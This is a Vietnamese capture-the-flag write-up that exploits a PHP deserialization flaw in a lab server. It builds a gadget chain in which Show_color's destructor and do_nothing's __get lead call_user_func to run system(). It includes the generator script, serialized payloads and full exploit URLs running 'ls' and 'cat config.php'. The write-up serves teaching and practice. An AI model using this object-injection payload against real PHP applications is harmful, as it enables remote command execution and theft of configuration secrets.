



# Bài tập 1 - Nhóm bài tập

##
### Team: Acceleration

### Link bài tập: [http://45.122.249.68:10001/](http://45.122.249.68:10001/)
##

Bước đầu truy cập vào link, ta nhận được một file php của server

```php
<?php
#include "config.php";
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
?>
```

Phần code gồm 3 class và phần if phía dưới, ta phân tích phần if phía dưới

```php
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
```

Ta thấy rằng server lấy dữ liệu từ biến code, và tiến hành unserialize, vậy đây là lỗi php deserialization, ta sẽ lợi dụng việc deserialization để thay đổi các object

Nhìn vào class `Show_color`, ta thấy trong class này có hàm `__destruct()` sẽ được tự động gọi khi hủy đối tượng, trong đó gọi đến `call_user_func($this->type->adu,$this->color)`
hàm này nếu ta control được 2 đối số truyền vào, ta có thể thực thi lệnh hệ thống, ví dụ ta có thể thực thi `system('ls')` bằng `call_user_func('system','ls')`

```php
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
```

Vậy bây giờ ta cần tìm cách để gán 2 tham số vào, ta nhận thấy tham số thứ 2 đến từ `$this->color`, ta dễ dàng thay đổi từ vì chúng được unserialize, còn tham số đầu tiên dùng truy vấn
`$this->type->adu`, như vậy ta phải thay nó bằng một object mà `object->adu = 'system'`

Trong 3 class trong source code không có class nào có thuộc tính `adu` cả, tuy nhiên ta để ý class `do_nothing` có một magic method `__get()`

```php
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
```

Với magic method `__get()` này thì các truy vấn như `object->adu` sẽ không truy vấn trực tiếp đến biến `adu` trong class nữa mà sẽ được truyền vào hàm `__get($method)` với `$method = 'adu'`

Nhìn vào hàm `__get($method)`, ta nhận thấy nếu biến `$this->why` được set giá trị thì hàm sẽ luôn trả về `$this->i_use_this` bất kể giá trị `$method` có là gì, vậy ta chỉ cần thay
`$this->type` ở class `Show_color` là một object thuộc class `do_nothing` với tham số `$this->why = 1` và `$this->i_use_this = 'ls'` (tham số `$this->why` được set tùy ý)

Như vậy khi hủy đối tượng thuộc class `Show_color`, server gọi hàm `call_user_func($this->type->adu,$this->color)` với `$this->type->adu = $this->type->i_use_this = 'system'` và `$this->color = 'ls'`

Ta sử dụng code sau để unserialize đối tượng

```php
<?php
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
    public function __destruct(){
        call_user_func($this->type->adu,$this->color);
    }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
$a = new do_nothing(1, 'system');
$b = new Show_color($a, 'ls');
echo serialize($b);
?>
```

Chạy thử, ta nhận được chuỗi serialize là `O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:1;s:10:"i_use_this";s:6:"system";}}`



Thay vào biến code trên link [http://45.122.249.68:10001/?code=O:10:%22Show_color%22:2:{s:5:%22color%22;s:2:%22ls%22;s:4:%22type%22;O:10:%22do_nothing%22:2:{s:3:%22why%22;i:1;s:10:%22i_use_this%22;s:6:%22system%22;}}](http://45.122.249.68:10001/?code=O:10:%22Show_color%22:2:{s:5:%22color%22;s:2:%22ls%22;s:4:%22type%22;O:10:%22do_nothing%22:2:{s:3:%22why%22;i:1;s:10:%22i_use_this%22;s:6:%22system%22;}})



Ta thấy trong system có 2 file là `index.php` (file đang chạy) và `config.php`

Sử dụng cách cũ nhưng lần này ta thử thay lệnh 'ls' bằng lệnh 'cat config.php' thử

serialize: `O:10:"Show_color":2:{s:5:"color";s:14:"cat config.php";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:1;s:10:"i_use_this";s:6:"system";}}`

link: [http://45.122.249.68:10001/?code=O:10:%22Show_color%22:2:{s:5:%22color%22;s:14:%22cat%20config.php%22;s:4:%22type%22;O:10:%22do_nothing%22:2:{s:3:%22why%22;i:1;s:10:%22i_use_this%22;s:6:%22system%22;}}](http://45.122.249.68:10001/?code=O:10:%22Show_color%22:2:{s:5:%22color%22;s:14:%22cat%20config.php%22;s:4:%22type%22;O:10:%22do_nothing%22:2:{s:3:%22why%22;i:1;s:10:%22i_use_this%22;s:6:%22system%22;}})

Ta nhận được một trang trắng tinh, những kiểm tra source, ta tìm được flag



flag: `flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}`

